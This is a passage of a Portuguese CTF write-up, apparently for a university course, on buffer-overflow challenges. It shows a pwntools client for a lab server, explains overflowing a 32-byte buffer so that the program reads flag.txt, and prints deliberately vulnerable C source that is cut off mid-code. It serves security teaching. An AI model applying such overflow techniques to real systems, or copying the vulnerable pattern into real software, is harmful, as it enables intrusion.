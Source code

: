 Por sua vez, o programa Python acede ao servidor e envia o input que quisermos, e será por aí que tentaremos causar overflow e recolher o conteúdo do ficheiro.

```py
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"Tentar nao custa")
r.interactive()
```

## Resolução do problema
Na linha que chama a função r.sendline() - cujo parâmetro é a string que queremos introduzir como input no servidor - escrevemos 32 caracteres quaisquer, para preencher o buffer, e depois `flag.txt`, o ficheiro que queremos aceder. 

Executando o programa python, este é o output recebido:

![flag1](img/ctf5/image.png)

Submetendo a flag recebida, o Desafio 1 dá-se por concluído.


<h2 align="center">Desafio 2</h2>

## Descrição
Este desafio é idêntico ao anterior na forma como o ataque é feito, porém existem algumas diferenças neste servidor:
* A porta a aceder é 4000 neste caso, ao invés de 4003
* O programa C é ligeiramente diferente em relação ao outro - este impôe uma condição e apenas executará corretamente se esta for verdadeira.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
```